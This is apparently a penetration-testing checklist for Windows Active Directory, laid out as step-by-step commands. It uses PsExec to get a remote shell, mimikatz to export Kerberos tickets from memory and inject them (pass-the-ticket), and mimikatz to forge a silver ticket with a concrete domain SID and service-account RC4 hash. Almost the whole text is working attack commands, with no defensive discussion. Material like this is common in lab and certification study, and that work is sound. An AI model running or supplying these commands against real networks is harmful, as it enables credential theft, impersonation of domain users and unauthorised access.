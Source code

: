 - [ ] Get remote access to new target machine, on the Target Machine
```
.\PsExec.exe \\web69 cmd
```
- Launches `cmd` remotely on the `\\web69` machine as that user
- Download from SysinternalsSuite
#### Kerberos Tickets
- [ ] Export Kerberos tickets stored in memory, on the Target Machine
```
.\mimikatz.exe
privilege::debug
token::elevate
sekurlsa::tickets /export
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::tickets /export" "exit"
```

- [ ] Verify newly exported Kerberos tickets on the Target Machine
```
dir *.kirbi
```

- [ ] Inject selected TGS into process memory on the Target Machine
```
kerberos::ptt [0;12bd0]-0-0-40690000-salesman@cifs-web69.kirbi
```

- [ ] Launch a new command prompt on the Target Machine
```
misc::cmd
```

- [ ] Delete any existing Kerberos tickets on the Target Machine
```
kerberos::purge
```
#### Forging Silver Ticket
- [ ] Obtain NTLM hash of the service account

- [ ] Obtain the domain SID on the Target Machine
```powershell
whoami /user
```
- Remove the last part of the SID

- [ ] Obtain target SPN on the Target Machine
```powershell
web69.hentai.com
```

- [ ] Forge the service ticket with any domain user (E.g., hentaiadmin) and inject into the current session, on the Target Machine
```powershell
kerberos::golden /sid:S-1-5-21-1736980270-669058905-1784818369 /domain:hentai.com /ptt /target:web69.hentai.com /service:http /rc4:42128cf5d1319520484caa252d399609 /user:hentaiadmin
```
